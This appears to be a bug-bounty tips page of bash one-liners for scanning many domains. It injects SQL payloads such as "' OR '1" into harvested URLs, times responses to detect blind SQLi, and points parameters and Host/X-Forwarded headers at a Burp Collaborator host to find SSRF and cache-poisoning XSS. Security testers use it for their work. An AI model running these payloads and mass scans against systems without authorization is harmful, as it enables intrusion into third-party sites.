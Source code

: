 ## Search SQLINJECTION using qsreplace search syntax error
> [KingOfBugbounty](https://github.com/KingOfBugbounty/KingOfBugBountyTips)
```bash
grep "="  .txt| qsreplace "' OR '1" | httpx -silent -store-response-dir output -threads 100 | grep -q -rn "syntax\|mysql" output 2>/dev/null && \printf "TARGET \033[0;32mCould Be Exploitable\e[m\n" || printf "TARGET \033[0;31mNot Vulnerable\e[m\n"
```

## SQLi-TimeBased scanner
> @slv0d
```bash
gau DOMAIN.tld  | sed 's/=[^=&]*/=YOUR_PAYLOAD/g' | grep ?*= | sort -u | while read host;do (time -p curl -Is $host) 2>&1 | awk '/real/ { r=$2;if (r >= TIME_OF_SLEEP ) print h " => SQLi Time-Based vulnerability"}' h=$host ;done
```

## Recon to search SSRF Test
> [KingOfBugbounty](https://github.com/KingOfBugbounty/KingOfBugBountyTips)
```bash
findomain -t DOMAIN -q | httpx -silent -threads 1000 | gau |  grep "=" | qsreplace http://YOUR.burpcollaborator.net
```

## Using shodan & Nuclei
> [KingOfBugbounty](https://github.com/KingOfBugbounty/KingOfBugBountyTips)

Shodan is a search engine that lets the user find specific types of computers connected to the internet, AWK Cuts the text and prints the third column. httpx is a fast and multi-purpose HTTP using -silent. Nuclei is a fast tool for configurable targeted scanning based on templates offering massive extensibility and ease of use, You need to download the nuclei templates.
```bash
shodan domain DOMAIN TO BOUNTY | awk '{print $3}' | httpx -silent | nuclei -t /nuclei-templates/
```

## Using Chaos to jaeles "How did I find a critical today?.
> [KingOfBugbounty](https://github.com/KingOfBugbounty/KingOfBugBountyTips)

To chaos this project to projectdiscovery, Recon subdomains, using httpx, if we see the output from chaos domain.com we need it to be treated as http or https, so we use httpx to get the results. We use anew, a tool that removes duplicates from @TomNomNom, to get the output treated for import into jaeles, where he will scan using his templates.
```bash
chaos -d domain | httpx -silent | anew | xargs -I@ jaeles scan -c 100 -s /jaeles-signatures/ -u @ 
```
edited **if we don't have chaos api_key**
```bash
cat domain | httpx -silent | anew | xargs -I@ jaeles scan -c 100 -s ~/Tools/jaeles-signatures -u @
```

## Check Blind ssrf in Header,Path,Host & check xss via web cache poisoning.
> @sratarun
```bash
cat domains.txt | assetfinder --subs-only| httprobe | while read url; do xss1=$(curl -s -L $url -H 'X-Forwarded-For: xss.yourburpcollabrotort'|grep xss) xss2=$(curl -s -L $url -H 'X-Forwarded-Host: xss.yourburpcollabrotort'|grep xss) xss3=$(curl -s -L $url -H 'Host: xss.yourburpcollabrotort'|grep xss) xss4=$(curl -s -L $url --request-target http://burpcollaborator/ --max-time 2); echo -e "\e[1;32m$url\e[0m""\n""Method[1] X-Forwarded-For: xss+ssrf => $xss1""\n""Method[2] X-Forwarded-Host: xss+ssrf ==> $xss2""\n""Method[3] Host: xss+ssrf ==> $xss3""\n""Method[4] GET http://xss.yourburpcollabrotort HTTP/1.1 ""\n";done\
```
